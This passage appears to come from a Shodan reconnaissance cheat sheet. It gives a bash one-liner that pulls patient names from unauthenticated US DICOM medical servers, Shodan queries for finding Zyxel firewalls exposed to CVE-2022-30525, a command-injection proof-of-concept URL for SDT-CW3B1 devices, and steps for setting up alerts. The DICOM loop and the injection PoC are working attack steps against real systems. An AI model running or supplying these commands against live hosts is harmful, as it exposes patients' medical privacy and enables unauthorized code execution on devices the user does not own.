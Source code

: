 ```
http.favicon.hash:-1250474341
```
## Exposed DICOM Servers

Count patient names in US exposed DICOM medical servers with no authentication

```bash
$ shodan download search "tag:medical" "country:us"; shodan parse --fields ip_str search.json.gz > usa_dicom_ip ; for i in `cat usa_dicom_ip` ; do echo "///// Now connecting to $i ////" ; findscu -v -to 1 -P -k PatientName="*" $i 104 >> us_dicom_patient_names; wc -l us_dicom_patient_names ; done
```
## Zyxel Firewall Unauthenticated Remote Command Injection

Rapid7 discovered and reported a vulnerability that affects Zyxel firewalls supporting Zero Touch Provisioning (ZTP), which includes the ATP series, VPN series, and the USG FLEX series (including USG20-VPN and USG20W-VPN). The vulnerability, identified as CVE-2022-30525, allows an unauthenticated and remote attacker to achieve arbitrary code execution as the nobody user on the affected device.

```
title:"USG FLEX 100","USG FLEX 100w","USG FLEX 200","USG FLEX 500","USG FLEX 700","USG FLEX 50","USG FLEX 50w","ATP100","ATP200","ATP500","ATP700"
```

## SDT-CW3B1 1.1.0 - OS Command Injection (CVE-2021-46422)

```
poc:http://<IP>/cgi-bin/admin.cgi?Command=sysCommand&Cmd=id
```

## Setting Up Shodan for Target Monitoring

1. Determine your home IP or target of interest's IP address

```bash
$ shodan myip
69.69.69.69
```

2. Create network alert

```bash
$ shodan create home 69.69.69.69
Successfully created network alert!
Alert ID: 34W09AETJKAHEDPX
```

3. Confirm that alert is generated

```bash
$ shodan alert info home
home
Created: 2022-03-01:69:69:69000
Notifications: Disabled

Network Range(s):
> 69.69.69.69
Triggers:
> any
```

